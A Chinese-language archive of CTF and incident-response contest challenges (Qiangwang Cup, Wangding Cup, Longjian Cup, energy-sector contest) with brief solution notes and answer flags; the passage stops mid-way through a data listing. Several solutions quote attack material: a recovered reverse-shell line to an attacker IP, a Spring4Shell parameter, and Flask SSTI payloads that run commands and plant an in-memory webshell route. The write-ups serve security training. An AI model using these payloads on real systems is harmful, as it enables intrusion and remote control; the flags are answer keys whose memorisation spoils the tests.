


强网杯
第八届强网杯线上赛
Misc
pickle_jail
givemesecret
Master of OSINT
Master of DFIR-Coffee
Master of DFIR-Phishing
AbstractMaze
签到
谍影重重5.0
Crypto
traditional_game
homomor_game
electronic_game
Web
PyBlockly
积木编程
Playground
Go playground designed for newbie
Proxy
Proxy what you want
EzCalc
Yet another calculator
Proxy_revenge
Proxy what you want but encrypted
第八届强网杯青少年专项赛
Crypto
Clasics
This task introduces you to CyberChef and various simple and classic encryption and encoding techniques.
知识点：古典密码、Base64、Base32、Atbash、ROT13、维吉尼亚密码
FLAG：flag{2834d185-a1da-4fb1-8bac-59076eb6a634}
网鼎杯
2024第四届“网鼎杯”网络安全大赛半决赛
第四届“网鼎杯”网络安全大赛半决赛采用“专项技术挑战赛（夺旗赛）”、“安全运营挑战赛（综合防御赛）”及“风险隐患挖掘赛（靶场渗透赛）”三种赛制相融合的竞技方式。
专项技术挑战赛
考察参赛战队在网络安全领域的技术能力，包括逆向安全、二进制安全、密码学、数据安全及新技术应用（如车联网、物联网、5G 通信），通过解题获取 flag 得分。
二进制安全
二进制漏洞挖掘 - cardmaster
请卡牌大师们找出这台切牌机中的漏洞并获取 flag
系统内核漏洞挖掘 - Generic_kernel_shellcode
Write a generic linux kernel shellcode?
新编译技术漏洞 - jitlover
这是一台不完全的 JIT 虚拟机，请找到其中的漏洞以获取 flag
密码学
RSA 加密分析 - equations
rsa 真的安全吗
序列密码加密分析 - noise
Let me tell you a story about noisy-nfsr.
数据安全
邮件数据分析
公司的 DLP 软件报警了，并上传了一段流量。你能帮 bob 分析下为什么会产生报警么？
数据安全协议分析
自定义 TLS 协议可能会存在安全问题，本题实现 TLS 的 Hello 部分，再利用 AES CFB 模式的性质伪造签名后的消息。端口为 23333，nc 正常无法连接上，需要根据 server 实现客户端链接。
新技术应用
车联网日志分析 - V2XLogAnalysis
车内日志的秘密，日志也能注入？
https://www.bilibili.com/opus/1004129835910430736
IOT 应用容器漏洞 - signin
难道这是真正的登陆入口吗？
IOT 网络协议分析 - babyRTP
这是一个双端都会推流的服务
5G 网络隐私保护 - Get_supi
在某些场景下，LTE 网络中用户的 IMSI 会在空口暴露，5G 网络是如何进行隐私保护的？网络侧如何得到用户的 SUPI？（提交请加上 flag{}）
逆向安全
python 逆向分析 - compress
一个幽灵，一个EOL的幽灵在代码审计中游荡。
网络通信流量分析 - socket
小鼎同学在日常运维排查中发现了异常通信流量，通过初步定位分析，他获得了客户端、服务端程序以及相关流量，请帮他找出其中异常敏感数据！
安全运营挑战赛
在本题目中勒索软件样本为真实样本，请选手一定在虚拟环境中分析，不要在物理机中有任何分析操作，如若造成物理机及数据被加密或损坏，造成损失由选手个人承担，主办方不承担任何责任。
考察参赛战队在典型网络环境中的安全运营能力，包括加固修复、应急响应等任务，通过完成靶机上的对应运营任务得分。
加固修复
SSH 服务于 22 端口，账号 user，密码 123456
01 加强SSH服务的安全性
为了防止SSH服务被暴力破解攻击，应禁用密码登录并改用密钥认证。请在Linux服务器上为root用户配置以下公钥以进行验证ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEhw/9RBAh4qW36/LZXn80sLIZhq2hAJ7qY9KhzfJ3rW
ssh-keygen -t ed25519
vim /etc/ssh/sshd_config
02 配置Nginx重定向和HSTS
配置Linux服务器的Nginx服务，将所有站点的HTTP请求重定向到HTTPS，并配置严格传输安全策略（HSTS），以确保客户端与服务器之间的通信安全。
03 启用Web应用防火墙
为Nginx服务的默认站点启用ModSecurity Web应用防火墙，并集成OWASP核心规则集（CRS），以防御常见的Web攻击和漏洞利用。
04 加强防火墙策略
配置Linux服务器的防火墙，使其仅允许通过以下端口的访问：22/tcp（SSH）、53/tcp和53/udp（DNS）、80/tcp（HTTP）、443/tcp（HTTPS）。关闭其他不必要的端口，减少攻击面。
05 优化Kubernetes RBAC权限
配置App1应用的Kubernetes RBAC权限，只允许读取App1应用命名空间下所有Pods的信息，防止越权访问其他命名空间的资源。
06 修复Kubernetes服务
使Pods状态为running，确保应用的可用性。
07 修复App2应用漏洞
修复App2应用的已知漏洞，并重新部署App2应用，确保其安全性和稳定性。
应急响应
ssh 服务于 22 端口，账号 root，密码 FD7!#fd8s web 服务于 80 端口，账号 admin，密码 JD67s@!#l
01 查明并处理植入的后门
公司Web业务系统遭受黑客攻击，并被植入后门。请您立即进行排查和处理，确保系统的安全性和完整性。
02 定位持久化服务和木马文件
找到Linux服务器中驻留的持久化服务，并将持久化技术所依赖的二进制木马文件复制到/home/user/checker目录中。
03 卸载恶意模块
找到Linux服务器被加载的恶意模块并卸载，恢复系统的正常功能。
04 发现并提取隐藏的进程
找到 Linux 服务器中隐藏的进程，并将该进程的二进制文件复制到 /home/user/checker 目录中，为后续分析提供依据。
05 查找被删除的勒案软件名称
找到攻击者被记录的删除加密勒索软件的痕迹，尝试恢复分析该勒索软件并提交勒索软件十六进制格式的加密密钥到/home/user/checker/key.txt文件中，以便于解密攻击者勒索的文件。
06 恢复被加密的数据
恢复服务器上被勒索软件加密的分区数据到/home/user/checker目录，确保业务数据的完整性和可用性。
07 查明并处理篡改的首页
公司Web业务系统首页遭受黑客攻击，并被植入恶意链接。请您立即进行排查和处理受影响的首页，确保系统的可用性、安全性和完整性。
威胁分析
ssh 服务于 22 端口，账号 root，密码 toor
01
在调查网络性能或安全问题时，了解特定应用程序在一段时间内的数据传输情况对于检测异常流量和潜在威胁至关重要。通过分析网络活动日志，我们可以确定是否存在数据泄露或异常通信。
请问，firefox进程自有记录以来一共发送了多少字节的数据？（请将答案编辑并存入/opt/wxfx/answer/1.txt文件中，参考/opt/wxfx/example目录）
02
识别安全防护软件的查杀记录，对于评估系统受感染的程度和了解攻击者所使用的工具至关重要。通过检查安全日志，可以获取被检测到的威胁信息。
请问，Windows Defender 检测到的第一个恶意软件的威胁ID是什么？（请将答案编辑并存入/opt/wxfx/answer/2.txt文件中，参考/opt/wxfx/example目录）
03
了解恶意软件的内部名称（如开发者给它的命名）有助于识别其家族、版本和特定功能，进而制定有效的防御策略。
请问，系统中正在运行的恶意软件的内部名称是什么？（请将答案编辑并存入/opt/wxfx/answer/3.txt文件中，参考/opt/wxfx/example目录）
04
逆向分析恶意软件时，确定其在进程内存中存储关键数据的位置，对于理解其工作机制和防范进一步的攻击非常重要。
请问，恶意软件在进程内存中存储密钥的内存地址是什么？（请将答案编辑并存入/opt/wxfx/answer/4.txt文件中，参考/opt/wxfx/example目录）
05
分析恶意软件的行为包括了解其在系统中启用了哪些权限，这有助于评估其潜在的危害和攻击范围。通过检查进程的权限列表，可以发现其可能执行的敏感操作。
请问，恶意软件在其进程中启用了多少个权限？（请将答案编辑并存入/opt/wxfx/answer/5.txt文件中，参考/opt/wxfx/example目录）
06
在分析勒索软件的行为时，确定其在内存中加载的位置对于深入理解其运行机制和发现潜在的漏洞非常重要。通过内存取证，可以找到打开勒索软件文件的设备的虚拟地址。
请问，打开勒索软件文件的设备的虚拟地址是什么（16进制）？（请将答案编辑并存入/opt/wxfx/answer/6.txt文件中，参考/opt/wxfx/example目录）
溯源反制
无接入信息，需要通过其他手段实现权限控制
01
在用户家目录留下23798632.txt
02
尝试在攻击机上提升权限并在提升权限后在高级用户的家目录中留下862382.txt文件
风险隐患挖掘赛
考察参赛战队的渗透测试能力，在大型仿真场景中通过信息收集、漏洞扫描和利用获取系统权限或执行命令，找到 flag 提交得分。
参考资料
“陇剑杯”网络安全大赛
作为国家级网络安全大赛，“陇剑杯”是全国同类赛事中首个“以防为主”的赛事品牌，同时也是首次引入“人工智能人机对抗”的网络安全防御赛。
- 第三届“陇剑杯”网络安全大赛
- 第二届“陇剑杯”网络安全大赛
- 首届“陇剑杯”网络安全大赛
第二届“陇剑杯”网络安全大赛线上预选赛
本次大赛延续首届“以防为主”的品牌特色，聚焦人工智能技术在安全防御场景中的应用，打造全场景网络安全防御演练场，吸引了全国 31 个省市区的 1681 支队伍、6724 人报名参赛。通过线上选拔，200 支队伍进入半决赛，120 支队伍进入决赛。
hard_web
hard_web_1
服务器开放了哪些端口，请按照端口大小顺序提交答案，并以英文逗号隔开（如服务器开放了80 81 82 83端口，则答案为80,81,82,83）
ip.dst == 192.168.162.188 && tcp.connection.synack
tcp.flags.ack == 1 and tcp.flags.syn ==1
FLAG：80,888,8888
hard_web_2
服务器中根目录下的flag值是多少？
哥斯拉 JSP 流量分析。强特征：在 Cookie的结尾处有分号。
解密最后一个 HTTP 响应数据包。
方法 1：使用 Cyberchef

FLAG：flag{9236b29d-5488-41e6-a04b-53b0d8276542}
hard_web_3
该webshell的连接密码是多少？
String xc="748007e861908c03"
对密钥进行 MD5 解密即可。
#!/usr/bin/env python3
import hashlib
import itertools
import string
target = "748007e861908c03"
chars = string.printable.strip() # 所有可打印字符
print("[+] MD5 Collision Hunter")
print(f"[+] Target: {target}")
print("[+] Pattern: 1****y")
print(f"[+] Charset: {len(chars)} characters")
for combo in itertools.product(chars, repeat=4):
s = f"1{''.join(combo)}y"
h = hashlib.md5(s.encode()).hexdigest()[:16]
if h == target:
print(f"\n[!] BINGO: {s}")
print(f"[!] Full MD5: {hashlib.md5(s.encode()).hexdigest()}")
exit(0)
print("\n[-] No collision found")
FLAG：14mk3y
server save
解压密码为c77ad47ba4c85fae66f08ec12e0085dd
server save_1
黑客是使用什么漏洞来拿下root权限的。格式为：CVE-2020-114514
class.module.classLoader.resources.context.parent.pipeline.first.pattern=
FLAG：CVE-2022-22965
server save_2
黑客反弹shell的ip和端口是什么，格式为：10.0.0.1:4444
bbbb.sh文件
/bin/sh -i >& /dev/tcp/192.168.43.128/2333 0>&1
FLAG：192.168.43.128:2333
server save_3
黑客的病毒名称是什么？ 格式为：filename
.bash_history
/home/guests/main
FLAG：main
server save_4
黑客的病毒运行后创建了什么用户？请将回答用户名与密码：username:password
可以结合云沙箱
FLAG：ll:123456
server save_5
服务器在被入侵时外网ip是多少? 格式为：10.10.0.1
/home/guests/.log.txt
FLAG：172.105.202.239
server save_6
病毒运行后释放了什么文件？格式：文件1,文件2
FLAG：lolMiner ,mine_doge.sh
server save_7
矿池地址是什么？ 格式：domain:1234
mine_doge.sh
FLAG：doge.millpools.cc:5567
server save_8
黑客的钱包地址是多少？格式：xx:xxxxxxxx
FLAG：DOGE:DRXz1q6ys8Ao2KnPbtb7jQhPjDSqtwmNN9.lolMinerWorker
WS
Wireshark1_1
被入侵主机的IP是？
FLAG：192.168.246.28
Wireshark1_2
被入侵主机的口令是？
FLAG：Youcannevergetthis
Wireshark1_3
用户目录下第二个文件夹的名称是？
FLAG：Downloads
Wireshark1_4
/etc/passwd中倒数第二个用户的用户名是？
FLAG：mysql
IR
本题附件见于平台公告的 IR.zip，解压密码为f0b1ba11478343f404666c355919de3f
你是公司的一名安全运营工程师，今日接到外部监管部门通报，你公司网络出口存在请求挖矿域名的行为。需要立即整改。经过与网络组配合，你们定位到了请求挖矿域名的内网 IP 是 10.221.36.21。查询 CMDB 后得知该 IP 运行了公司的工时系统。（虚拟机账号密码为：root/IncidentResponsePasswd）
IncidentResponse_1
挖矿程序所在路径是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）
echo -n '/etc/redis/redis-server'|md5sum|cut -d ' ' -f1
FLAG：6f72038a870f05cbf923633066e48881
IncidentResponse_2
挖矿程序连接的矿池域名是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）
在 redis.conf 文件中
echo -n 'donate.v2.xmrig.com'|md5sum|cut -d ' ' -f1
FLAG：3fca20bb92d0ed67714e68704a0a4503
IncidentResponse_3
攻击者入侵服务器的利用的方法是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案） 题目提示：答案 md5 值前两位为 3e
“工时系统”的日志文件 /home/app/nohup.log
echo -n 'shirodeserialization'|md5sum|cut -d ' ' -f1
FLAG：3ee726cb32f87a15d22fe55fa04c4dcd
IncidentResponse_4
攻击者的IP是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）
echo -n '81.70.166.3'|md5sum|cut -d ' ' -f1
FLAG：b2c5af8ce08753894540331e5a947d35
IncidentResponse_5
攻击者发起攻击时使用的User-Agent是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）
nginx 日志 access.log
echo -n 'strings'|md5sum|cut -d ' ' -f1
FLAG：6ba8458f11f4044cce7a621c085bb3c6
IncidentResponse_6
攻击者使用了两种权限维持手段，相应的配置文件路径是？(md5加密后以a开头)（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）
echo -n '/root/.ssh/authorized_keys'|md5sum|cut -d ' ' -f1
FLAG：a1fa1b5aeb1f97340032971c342c4258
IncidentResponse_7
攻击者使用了两种权限维持手段，相应的配置文件路径是？(md5加密后以b开头)（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）
echo -n '/lib/systemd/system/redis.service'|md5sum|cut -d ' ' -f1
FLAG：b2c5af8ce08753894540331e5a947d35
SSW
http and ip.addr ==192.168.77.135 and ip.addr ==192.168.77.155
SmallSword_1
连接蚁剑的正确密码是______________?（答案示例：123asd）
FLAG：6ea280898e404bfabd0ebb702327b18f
SmallSword_2
攻击者留存的值是______________?(答案示例：d1c3f0d3-68bb-4d85-a337-fb97cf99ee2e)
第二次向 hacker.txt 写内容
FLAG：ad6269b7-3ce2-4ae8-b97f-f259515e7a91
SmallSword_3
攻击者下载到的flag是______________?(答案示例：flag3{uuid})
导出 exe 文件，运行后获取 jpg 图片，修复文件后得 flag。
FLAG：flag3{8f0dffac-5801-44a9-bd49-e66192ce4f57}
EW
ez_web_1
服务器自带的后门文件名是什么？（含文件后缀）
FLAG：ViewMore.php
ez_web_2
服务器内网IP是多少？
FLAG：192.168.101.132
ez_web_3
攻击者往服务器中写入的key是什么？
解压密码为7e03864b0db7e6f9
FLAG：7d9ddff2-2d67-4eba-9e48-b91c26c42337
BF
本题附件见于平台公告的 BF.zip，解压密码为 4cf611fce4a2fec305e54c2766b7c860
题目给出了两个文件，分别是磁盘镜像文件baby_forensics.vmdk、内存文件baby_forensics.raw。
baby_forensics_1
磁盘中的key是多少？
key.txt E96<6J:Da6g_b_f_gd75a3d4ch4heg4bab66ad5d进行 ROT47 解密。

FLAG：2e80307085fd2b5c49c968c323ee25d5
baby_forensics_2
电脑中正在运行的计算器的运行结果是多少？
FLAG：7598632541
baby_forensics_3
该内存文件中存在的flag值是多少？
一般便签的数据保存目录是在 C:\Users\当前的账户用户名\AppData\Roaming\Microsoft\Sticky Notes\StickyNotes.snt 文件，需将原文件删除，并将我们的文件重命名。
U2FsdGVkX195MCsw0ANs6/Vkjibq89YlmnDdY/dCNKRkixvAP6+B5ImXr2VIqBSp
94qfIcjQhDxPgr9G4u++pA==

qwerasdf
使用 CryptoJS 实现的在线网站解密，如https://tool.oschina.net/encrypt/
或者使用 openssl 解密
echo "U2FsdGVkX195MCsw0ANs6/Vkjibq89YlmnDdY/dCNKRkixvAP6+B5ImXr2VIqBSp94qfIcjQhDxPgr9G4u++pA==" | openssl enc -d -aes-256-cbc -md md5 -base64 -pass pass:qwerasdf
FLAG：flag{ad9bca48-c7b0-4bd6-b6fb-aef90090bb98}
TP
tcpdump_1
攻击者通过暴力破解进入了某Wiki 文档，请给出登录的用户名与密码，以:拼接，比如admin:admin
http && !tcp contains "用户名或密码错误"
FLAG：TMjpxFGQwD:123457
tcpdump_2
攻击者发现软件存在越权漏洞，请给出攻击者越权使用的cookie的内容的md5值。（32位小写）
userid
accessToken=f412d3a0378d42439ee016b06ef3330c; zyplayertoken=f412d3a0378d42439ee016b06ef3330cQzw=; userid=1
FLAG：383c74db4e32513daaa1eeb1726d7255
tcpdump_3
攻击使用jdbc漏洞读取了应用配置文件，给出配置中的数据库账号密码，以:拼接，比如root:123456

FLAG：zyplayer:1234567
tcpdump_4
攻击者又使用了CVE漏洞攻击应用，执行系统命令，请给出此CVE编号以及远程EXP的文件名，使用:拼接，比如CVE-2020-19817:exp.so

FLAG：CVE-2022-21724:custom.dtd.xml
tcpdump_5
给出攻击者获取系统权限后，下载的工具的名称，比如nmap
过滤反弹 shell 的流量
ip.addr==116.62.63.234 && tcp.port == 9999

FLAG：fscan
HD
hacked_1
admIn用户的密码是什么？
AES 解密，Cyberchef
FLAG：flag{WelC0m5_TO_H3re}
hacked_2
app.config['SECRET_KEY']值为多少？
FLAG：ssti_flask_hsfvaldb
hacked_3
flask网站由哪个用户启动？
Flask session 解密
https://github.com/noraj/flask-session-cookie-manager
python .\flask_session_cookie_manager3.py decode -s "ssti_flask_hsfvaldb" -c ".eJwdx1EKwyAMANCrDEGiPz1Ar1KGZBi7gBpplH2Idy_d-3vTDKWrYiGzm2k5vZRUWeo2WsRObkLKeMKeuekoB4RwZvlg1hDg_S917lSeOhAFf0CTRvXp7ytYGPx2EUbnl7drWqqRk11m3cGmKw0.YpIQcw.J5vs8t8bAr0xDIxF6EqUAH2kkLE"
{'username': "{%if session.update({'flag':lipsum['__globals__']['__getitem__']('os')['popen']('whoami').read()})%}{%endif%}"}
python .\flask_session_cookie_manager3.py decode -s "ssti_flask_hsfvaldb" -c ".eJwdylsKAyEMQNGtFEGiUGYBs5VpkRQz04AvjNIPce-t_TyXO9QZ8FK7quQfSd1VF6oJI_3S0HzehEQ4p60Xj43MgPXDHrhIjwc4d4X8wiDOwfNPatwoLhrIAvaAkgulxc87Y2SwWyX0xk6r59CUPJ96qvkFHeUvmg.YpIQkg.65xf8l2g9fXAImkfyihId46KkY4"
{'flag': 'red\n', 'username': "{%if session.update({'flag':lipsum['__globals__']['__getitem__']('os')['popen']('whoami').read()})%}{%endif%}"}
FLAG：red
hacked_4
攻击者写入的内存马的路由名叫什么？（答案里不需要加/）
python .\flask_session_cookie_manager3.py decode -s "ssti_flask_hsfvaldb" -c ".eJx1jUsOgkAQBa-Cs2lJCEbdcQI9A0w6DdMaYjPgfAwJmbsLC1fq7r2kKrWo6NlZGlhValmiE7yNrkS8y9iSeMQaENvYS-jt-kDXwC8S0PtG0TSVZAxulovCezhcreEZigw-Q2hoDWUVXFhk3GXH0xnyRhULoONnZB-wCzP6QN0Dqt_9b1AXsMb_8F10jm3AjdApT0mlNx2uUsY.YpIRHQ.qS_PWmxt4i4cjHYBzDz-rUdTZns"
{'username': '{{url_for.__globals__[\'__builtins__\'][\'eval\']("app.add_url_rule(\'/Index\', \'Index\', lambda :\'Hello! 123\')",{\'_request_ctx_stack\':url_for.__globals__[\'_request_ctx_stack\'],\'app\':url_for.__globals__[\'current_app\']})}}'}
FLAG：Index
参考资料
- https://github.com/CTF-Archives/2023-longjiancup
- https://xz.aliyun.com/news/12252
- https://mp.weixin.qq.com/s/Y8Wfs0or4F0nTcYQDiNiIQ
CISCN
第十八届全国大学生信息安全竞赛（创新实践能力赛）线上初赛
ISCC
ISCC 2025
ISCC 2024
ISCC 2023
ISCC 2022
能源网络安全大赛
2025年能源网络安全大赛预赛
2024年能源网络安全大赛团体决赛
2024 年 6 月 20 日以线下赛形式在江苏宜兴举办了 2024 年能源网络安全大赛团体决赛、个人决赛。
赛题附件：百度网盘
输配电场景
能源管理后门查杀
能源管理系统Web应用框架被攻击者留下了后门，请定位分析后清理相关后门程序。
FLAG 为flag{}
新能源发电场景
智能制造场景
参考资料
- https://github.com/i1ikey0u/CTF_2024NYXH_YS-JS/blob/main/01%E8%83%BD%E6%BA%90%E5%8D%8F%E4%BC%9A%E5%A4%A7%E8%B5%9B%E5%9B%A2%E9%98%9F%E5%86%B3%E8%B5%9B%E8%B5%9B%E9%A2%98%E5%92%8CWriteUp.md
- https://www.cnblogs.com/wgf4242/p/18259576
2024年能源网络安全大赛个人决赛
2024 年 6 月 20 日以线下赛形式在江苏宜兴举办了 2024 年能源网络安全大赛团体决赛、个人决赛。
赛题附件：百度网盘
Misc
损坏的图片

黑客将系统锁死后，系统上多了一个损坏的图片，据安全专家评估，图片可能隐含了解密系统的密钥，找到损坏图片中隐藏的flag解锁系统吧。
知识点：文件修复、JPG、Python Pickle
将文件头 89 50 4E 47 修改为 FF D8 ff E0，得到 JPG 图片。

该图片为巨蟒集团（Monty Python）， 同时发现图片末尾有额外数据，开头为 80 04，疑似为 Python Pickle 反序列化数据。
import pickle
import matplotlib.pyplot as plt
with open('data.pkl', 'rb') as f:
data = pickle.load(f)
# print(data)
# 提取数据中的所有点
points = [(x, i) for i, sublist in enumerate(data) for x, _ in sublist]
# 调整Y轴的⽐例，翻转图像
x_vals, y_vals = zip(*points)
adjusted_y_vals = [-y for y in y_vals]
# 绘制数据点
plt.figure()
plt.scatter(x_vals, adjusted_y_vals, marker='X', color='b')
plt.show()
反序列化后得到的列表及如果如下：
[[(42, 'X'), (43, 'X'), (44, 'X')], [(6, 'X'), (7, 'X'), (41, 'X'), (42, 'X')], [(4, 'X'), (5, 'X'), (11, 'X'), (41, 'X')], [(4, 'X'), (11, 'X'), (41, 'X'), (42, 'X')], [(0, 'X'), (2, 'X'), (4, 'X'), (5, 'X'), (6, 'X'), (7, 'X'), (10, 'X'), (11, 'X'), (17, 'X'), (18, 'X'), (19, 'X'), (20, 'X'), (21, 'X'), (29, 'X'), (30, 'X'), (31, 'X'), (32, 'X'), (33, 'X'), (40, 'X'), (41, 'X'), (42, 'X'), (48, 'X'), (49, 'X'), (50, 'X'), (51, 'X'), (59, 'X'), (60, 'X'), (61, 'X'), (62, 'X')], [(4, 'X'), (10, 'X'), (17, 'X'), (22, 'X'), (29, 'X'), (34, 'X'), (39, 'X'), (40, 'X'), (51, 'X'), (58, 'X'), (59, 'X'), (63, 'X')], [(4, 'X'), (10, 'X'), (17, 'X'), (22, 'X'), (29, 'X'), (30, 'X'), (33, 'X'), (34, 'X'), (40, 'X'), (41, 'X'), (42, 'X'), (48, 'X'), (49, 'X'), (50, 'X'), (51, 'X'), (58, 'X'), (59, 'X'), (60, 'X'), (61, 'X'), (62, 'X'), (63, 'X')], [(4, 'X'), (10, 'X'), (15, 'X'), (17, 'X'), (18, 'X'), (19, 'X'), (20, 'X'), (21, 'X'), (22, 'X'), (23, 'X'), (24, 'X'), (25, 'X'), (26, 'X'), (32, 'X'), (33, 'X'), (34, 'X'), (41, 'X'), (42, 'X'), (48, 'X'), (49, 'X'), (50, 'X'), (51, 'X'), (52, 'X'), (53, 'X'), (54, 'X')], [(4, 'X'), (10, 'X'), (11, 'X'), (12, 'X'), (13, 'X'), (14, 'X'), (15, 'X'), (33, 'X'), (41, 'X')], [(4, 'X'), (32, 'X'), (33, 'X'), (41, 'X')], [(26, 'X'), (27, 'X'), (32, 'X'), (41, 'X'), (42, 'X'), (43, 'X')], [(27, 'X'), (28, 'X'), (29, 'X'), (30, 'X'), (31, 'X'), (42, 'X'), (43, 'X')], [(29, 'X'), (30, 'X')], [], [(13, 'X'), (15, 'X')], [(1, 'X'), (2, 'X'), (3, 'X'), (4, 'X'), (12, 'X'), (13, 'X'), (15, 'X'), (22, 'X'), (23, 'X'), (24, 'X'), (25, 'X'), (26, 'X'), (28, 'X'), (34, 'X'), (39, 'X'), (45, 'X'), (46, 'X'), (47, 'X'), (48, 'X'), (52, 'X'), (53, 'X'), (61, 'X'), (62, 'X')], [(4, 'X'), (11, 'X'), (12, 'X'), (15, 'X'), (22, 'X'), (28, 'X'), (35, 'X'), (38, 'X'), (39, 'X'), (44, 'X'), (45, 'X'), (48, 'X'), (53, 'X'), (61, 'X')], [(0, 'X'), (1, 'X'), (2, 'X'), (3, 'X'), (10, 'X'), (11, 'X'), (12, 'X'), (13, 'X'), (15, 'X'), (16, 'X'), (17, 'X'), (22, 'X'), (28, 'X'), (35, 'X'), (36, 'X'), (37, 'X'), (38, 'X'), (43, 'X'), (44, 'X'), (47, 'X'), (48, 'X'), (53, 'X'), (54, 'X'), (60, 'X')], [(0, 'X'), (1, 'X'), (2, 'X'), (3, 'X'), (4, 'X'), (5, 'X'), (6, 'X'), (7, 'X'), (15, 'X'), (22, 'X'), (28, 'X'), (36, 'X'), (37, 'X'), (43, 'X'), (44, 'X'), (45, 'X'), (46, 'X'), (47, 'X'), (48, 'X'), (54, 'X'), (55, 'X'), (59, 'X')], [(15, 'X'), (22, 'X'), (28, 'X'), (36, 'X'), (48, 'X'), (58, 'X'), (59, 'X')], [(34, 'X'), (35, 'X'), (48, 'X'), (57, 'X'), (58, 'X')], [(32, 'X'), (47, 'X'), (56, 'X'), (57, 'X')], [(31, 'X'), (32, 'X'), (43, 'X'), (44, 'X'), (46, 'X'), (47, 'X'), (55, 'X'), (56, 'X')], [(30, 'X'), (45, 'X'), (54, 'X'), (55, 'X')], [(59, 'X'), (60, 'X'), (61, 'X'), (62, 'X')], [(50, 'X'), (62, 'X')], [(2, 'X'), (3, 'X'), (4, 'X'), (5, 'X'), (6, 'X'), (7, 'X'), (8, 'X'), (9, 'X'), (16, 'X'), (17, 'X'), (18, 'X'), (19, 'X'), (21, 'X'), (22, 'X'), (23, 'X'), (24, 'X'), (25, 'X'), (31, 'X'), (32, 'X'), (33, 'X'), (34, 'X'), (35, 'X'), (36, 'X'), (37, 'X'), (38, 'X'), (39, 'X'), (40, 'X'), (46, 'X'), (49, 'X'), (52, 'X'), (53, 'X'), (62, 'X')], [(7, 'X'), (8, 'X'), (22, 'X'), (23, 'X'), (38, 'X'), (39, 'X'), (47, 'X'), (48, 'X'), (49, 'X'), (51, 'X'), (52, 'X'), (61, 'X')], [(5, 'X'), (6, 'X'), (7, 'X'), (20, 'X'), (21, 'X'), (22, 'X'), (36, 'X'), (37, 'X'), (44, 'X'), (45, 'X'), (46, 'X'), (47, 'X'), (48, 'X'), (49, 